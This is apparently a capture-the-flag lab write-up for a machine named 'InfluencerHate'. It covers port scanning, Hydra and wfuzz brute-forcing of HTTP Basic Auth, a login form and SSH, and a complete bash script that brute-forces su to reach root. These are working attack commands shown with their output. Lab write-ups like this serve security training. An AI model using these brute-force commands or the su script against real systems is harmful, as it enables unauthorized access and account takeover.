 # InfluencerHate

## Port Enumeration
We began by scanning the target with Nmap during the discovery phase. The following open port was identified:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 86:ba:77:96:38:4e:54:22:d9:09:f1:03:17:bd:52:43 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOiDMcTZdMv54RYo66Vj1lo0DHXGzARy5cb26KgkubJZrBqOpV/mZ377CY8BcTi2CLeR0saiWSVFKfbttcqqI9s=
|   256 28:b4:8b:66:08:67:77:f9:b0:f6:c2:94:58:34:dd:47 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHfU3b71so+RowXPc325dWRWr510sPJQeMOdG+i3QEiC
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62
|_http-server-header: Apache/2.4.62 (Debian)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Zona restringida
|_http-title: 401 Unauthorized

```

Two open services were detected:

Port 22 (SSH) – Running OpenSSH 9.2p1 (no immediate vulnerabilities without valid credentials).
Port 80 (HTTP) – Running Apache 2.4.62, protected by HTTP Basic Authentication.

## Brute Force Attack (HTTP Basic Authentication)

The HTTP service required Basic Authentication, so we attempted a brute force attack using Hydra with default credential lists.


```shell
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 172.17.0.2 -s 80 http-get /
```

[DATA] attacking http-get://172.17.0.2:80/
[80][http-get] host: 172.17.0.2   login: httpadmin   password: fhttpadmin

Valid credentials obtained:
Username: httpadmin
Password: fhttpadmin
After logging in with these credentials, we were presented with the Apache default page.

## Directory Fuzzing

We performed directory fuzzing to enumerate additional content. Using Wfuzz, we discovered a secondary login page:

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,php,txt,html --hc 401,403,404 --basic httpadmin:fhttpadmin http://172.17.0.2/FUZZ.FUZ2Z
```

This revealed a login form at /login.php. Capturing and analyzing the HTTP request with BurpSuite gave the following structure:

```shell
POST /login.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 33
Cache-Control: max-age=0
Authorization: Basic aHR0cGFkbWluOmZodHRwYWRtaW4=
Upgrade-Insecure-Requests: 1
Origin: http://172.17.0.2
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.17.0.2/login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
username=pepe&password=pepe
```

We fuzzed the login form with Wfuzz, targeting the password parameter:

```shell
wfuzz -c -z file,/usr/share/wordlists/rockyou.txt -t 50 --hh=2848 -H "Authorization: Basic aHR0cGFkbWluOmZodHRwYWRtaW4=" -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" http://172.17.0.2/login.php

/usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/login.php
Total requests: 14344392

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                       
=====================================================================

000000027:   200        84 L     236 W      2924 Ch     "chocolate" 
```

New valid credentials obtained:

Username: admin

Password: chocolate

Inside the application we also identified the presence of a possible system user: `balutin`.

![alt text](/Imagenes/InfluencerHate.png)



## SSH Brute Force

We attempted to brute force the SSH service using the discovered username:

```shell
hydra -l balutin -P /usr/share/wordlists/rockyou.txt -t4 ssh://172.17.0.2
```


```shell

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-18 07:41:27
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 14344319 to do in 2988:24h, 4 active
[22][ssh] host: 172.17.0.2   login: balutin   password: estrella

```

Valid SSH credentials:
Username: balutin
Password: estrella

## Privilege Escalation
### Tool Transfer

We transferred the rockyou.txt wordlist to the compromised system for local brute force testing:
```shell
scp /usr/share/wordlists/rockyou.txt balutin@172.17.0.2:/tmp/
```

### Local Brute Force (root via su)
We created a custom Bash script to brute force the su command locally

```shell
#!/bin/bash
echo "[*] Starting brute force against 'su' with rockyou.txt"

counter=0
while IFS= read -r password; do
    counter=$((counter + 1))

    # Show progress every 1000 attempts
    if [ $((counter % 1000)) -eq 0 ]; then
        echo "[*] Attempts: $counter"
    fi

    # Test the password
    echo "$password" | timeout 2 su -c 'echo SUCCESS' 2>/dev/null | grep -q "SUCCESS"
    if [ $? -eq 0 ]; then
        echo "[+] ROOT PASSWORD FOUND: $password"
        echo "[+] Attempts: $counter"
        exit 0
    fi
done < rockyou.txt

echo "[-] Brute force complete. No password found."

```

## Full System Compromise

The local brute force attack succeeded, revealing the root password and allowing full administrative access to the system.
